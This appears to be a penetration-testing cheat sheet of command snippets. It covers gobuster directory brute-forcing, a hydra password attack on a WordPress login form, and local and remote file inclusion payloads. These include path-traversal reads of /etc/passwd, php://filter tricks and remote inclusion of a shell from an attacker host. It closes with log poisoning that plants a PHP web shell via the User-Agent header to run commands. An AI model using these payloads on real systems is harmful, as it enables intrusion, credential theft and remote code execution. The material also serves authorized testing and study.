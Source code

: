 Brute force directory and files using Gobuster:
```
#scan only for directory
gobuster dir -u http://host/ -t 15 -w /usr/share/dirb/wordlists/common.txt 

#Scan for directory, and files extension of php,txt or conf
gobuster dir -u http://host/ -t 15 -w /usr/share/dirb/wordlists/common.txt -x .php,.txt,.conf

#ignore Certificate check  
gobuster dir -u https://host/ -t 15 -w /usr/share/dirb/wordlists/common.txt -x .php,.txt,.conf -k 
```

Password brute Forcing(wordpress example) using hydra:
```
hydra -L lists/usrname.txt -P lists/pass.txt localhost -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

## LFI and RFI 
If the URL parameter has file name, we can try to vulnerability for LFI/RFI. We should request invalid file and see if any error is displayed!
```
#target url
http://site/index.php?file=mail.php
# Display any Error? We may get error by requesting invalid file, like: Warning: include(files/ninevehNotes): 
failed to open stream: No such file or directory in /var/www/html/direcotry/note.php on line 21

http://site/index.php?file=invalid.php

#Exploit
file=/etc/passwd
file=../../../../etc/passwd
file=/etc/passwd%00
file=/var/log/httpd-access.log
file=php://filter/read=convert.base64-encode/resource=/etc/passwd
file=php://filter/read=convert.base64-encode/resource=index

#May need to try different way to find the exploit:
file=thefile/note/../../../../../../../../../etc/passwd

#Remote file Inclusion!
file=http://attacker_ip/shell.txt
```

LFI Can execute code! 
```
#Find or guess where the logs files are exist, such as:
file=/usr/local/etc/apache24/httpd.conf 
```

Modify the User agent of header and send using CURL or Burpsuite or even netcat:
```
User-Agent: bytefellow: <?php system($_GET['cmd']); ?>
```
Now execute command:
```
http://target/file.php?file=/var/log/access.log&cmd=id
```

